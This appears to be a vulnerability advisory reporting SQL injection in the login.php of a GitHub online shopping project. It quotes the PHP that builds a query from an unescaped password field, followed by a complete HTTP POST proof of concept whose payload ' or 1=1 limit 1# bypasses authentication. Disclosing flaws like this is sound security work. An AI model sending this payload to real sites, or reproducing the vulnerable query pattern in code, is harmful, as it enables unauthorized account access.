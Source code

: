 # Surya2Developer / Online_shopping_-system - login.php SQL Injection

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://github.com/Surya2Developer/Online_shopping_-system

## Affected Component
> /login.php

## Code
```php
if(isset($_POST["email"]) && isset($_POST["password"])){
	$email = mysqli_real_escape_string($con,$_POST["email"]);
	$password = $_POST["password"];
	$sql = "SELECT * FROM user_info WHERE email = '$email' AND password = '$password'";
	$run_query = mysqli_query($con,$sql);
	$count = mysqli_num_rows($run_query);
    $row = mysqli_fetch_array($run_query);
		$_SESSION["uid"] = $row["user_id"];
		$_SESSION["name"] = $row["first_name"];
		$ip_add = getenv("REMOTE_ADDR");
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /login.php HTTP/1.1
Host: [REDACTED]
Content-Length: 68
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: [REDACTED]
sec-ch-ua-platform: "macOS"
Origin: [REDACTED]
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: [REDACTED]
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED]
Connection: close

email=nochizplz%40nochizplz.com&password=nochizplz'+or+1%3d1+limit+1%23
```

## Screenshot